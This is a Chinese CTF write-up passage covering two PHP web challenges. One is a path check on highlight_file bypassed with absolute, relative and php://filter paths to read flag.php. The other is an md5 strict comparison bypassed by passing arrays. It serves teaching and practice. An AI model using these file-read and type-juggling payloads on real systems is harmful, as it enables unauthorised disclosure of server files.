 



### 4、highlight_file 路径

**（Web 96）**

highlight_file 的参数可以是路径的

```php
<?php
highlight_file(__FILE__);

if (isset($_GET['u'])) {
    if ($_GET['u'] == 'flag.php') {
        die("no no no");
    } else {
        highlight_file($_GET['u']);
    }
}
?>
```

if 语句只比对字符串，highlight_file 可以写路径，故 payload 有多种解法：

```php
/var/www/html/flag.php              绝对路径
./flag.php                          相对路径
php://filter/resource=flag.php      php伪协议
```





### 5、md5 比较缺陷

#### 第一种

**（Web 97）**

PHP 中 hash 比较是存在缺陷的，MD5 无法处理数组，如果传入数组则返回 NULL，两个 NULL 是强相等的

```php
<?php
    if ($_POST['a'] != $_POST['b']) {
    if (md5($_POST['a']) === md5($_POST['b'])) {
        echo $flag;
    } else {
        print 'Wrong.';
    }
}
?>
```

payload:`a[]=1&b[]=2`


